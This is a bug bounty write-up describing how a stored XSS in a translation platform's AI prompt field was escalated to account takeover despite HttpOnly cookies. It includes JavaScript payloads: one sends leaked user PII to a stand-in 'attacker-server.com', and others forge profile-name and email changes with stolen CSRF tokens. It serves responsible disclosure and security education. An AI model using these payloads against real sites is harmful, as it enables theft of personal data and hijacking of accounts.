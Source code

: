 # How We Turned a Medium XSS into a High Bounty by Bypassing HttpOnly Cookie

#### **﷽**

During a recent security assessment on a private bug bounty program with my friends @0d\_sami and @karemelsaqary , We discovered a Stored Cross-Site Scripting (XSS) vulnerability that was initially triaged as medium severity. However, by uncovering a way to bypass HttpOnly cookies, I was able to escalate its impact, resulting in a high-severity classification and a 3x increase in the bounty. Let’s dive into the details of this finding and how I achieved this escalation.

***

## **The Initial Discovery**

The target application was a common platform used for website translations, featuring team management, project management, and an AI-powered section. While testing for privilege escalation and injection attacks, I stumbled upon an interesting input field in the AI prompts section. Specifically, there was a "select bar" for choosing prompt types, but at the end of the list, there was an option to create a custom prompt type. This immediately caught my attention as a potential vector for XSS.

I tested the input field with standard XSS payloads and successfully triggered a stored XSS vulnerability. However, there were two significant limitations:

1. **Character Limit**: The input field was restricted to 255 characters, which made crafting a payload challenging.
2. **HttpOnly Cookies**: The session cookies were protected by the HttpOnly flag, preventing JavaScript from accessing them.

Despite these limitations, I reported the vulnerability, expecting it to be classified as medium severity due to the restricted impact. The triage team confirmed this assessment, stating that the HttpOnly flag mitigated the risk of cookie theft, leaving only the potential for script execution.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating the Impact**

While the initial finding was valid, I wasn’t satisfied with the medium severity classification. I began exploring ways to increase the impact of the vulnerability. Here’s how I did it:

### **1. Expanding the Attack Scope**

I discovered that projects could be made public, significantly widening the attack surface. If an attacker could lure users to join their project and view the AI prompts, the XSS payload would trigger for all those users. While this increased the potential impact, it still wasn’t enough to convince the security team to classify the vulnerability as high severity.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

### **2. Leaking Sensitive User Data**

Next, I focused on finding ways to exfiltrate sensitive data. During my testing, I identified an endpoint (`/backend/settings/change_account`) that leaked all user PII (Personally Identifiable Information) if an incorrect request was sent Like Requesting it without providing the `X-CSRF-TOKEN:` header or without the required parameters and it was very very strange behavior. The challenge was crafting a payload within the 255-character limit to exploit this.

After some experimentation and assistance from AI to optimize the payload, I came up with the following:

{% code overflow="wrap" %}
```javascript
fetch('/backend/settings/change_account').then(r => r.json()).then(d => location = 'https://attacker-server.com?data=' + encodeURIComponent(JSON.stringify(d))).catch(console.error);
```
{% endcode %}

This payload forced the victim’s browser to make a request to the vulnerable endpoint, leaking all user data and sending it to my Burp Collaborator server.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **3. Bypassing HttpOnly for CSRF Tokens**

While the session cookies were protected by the HttpOnly flag, I noticed that the CSRF token was stored in a non-HttpOnly cookie. This token was also included in the headers of requests to sensitive endpoints, such as the one used to change user passwords. By leveraging the XSS vulnerability, I could extract the CSRF token and use it to perform actions on behalf of the victim.

Here’s the payload I used to change the victim’s profile name:

{% code overflow="wrap" %}
```javascript
<script>fetch('/backend/settings/change_account',{method:'POST',headers:{'X-Csrf-Token':'fkel9z9je2','Content-Type':'application/x-www-form-urlencoded'},body:'step=real_name&real_name=hacked+0x88'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

### **4. Achieving Account Takeover**

To escalate the attack further, I aimed to change the victim’s email address, which would allow for a full account takeover. However, the request to change the email required an additional parameter (`_token`) that wasn’t stored in any cookie. After some investigation, I found that this token was leaked in the HTML content of the victim’s profile page. By making a request to the profile endpoint and exfiltrating the HTML, I was able to extract the `_token` and use it in another XSS payload to change the victim’s email:

{% code overflow="wrap" %}
```javascript
<script>fetch('/api/front/user/change-email',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'new_email=t@t.co&_token=tokeforvictim'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

***

## **Additional Exploitation Scenarios**

Beyond account takeover, I demonstrated other severe impacts that could result from the XSS vulnerability, including:

1. **Ad Fraud**: Injecting malicious advertisements into the page.
2. **SEO Manipulation**: Injecting backlinks to manipulate search engine rankings.
3. **Cryptojacking**: Injecting scripts to mine cryptocurrency without the user’s consent.

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

The security team ultimately agreed with my assessment, reclassifying the vulnerability as high severity and awarding a significantly higher bounty. This finding serves as a reminder that persistence and creativity can turn seemingly minor vulnerabilities into critical security issues.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Stay curious, and happy hunting!

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

**سُبْحَانَكَ اللَّهُمَّ وَبِحَمْدِكَ ، أَشْهَدُ أَنْ لا إِلَهَ إِلا أَنْتَ ، أَسْتَغْفِرُكَ وَأَتُوبُ إِلَيْكَ**
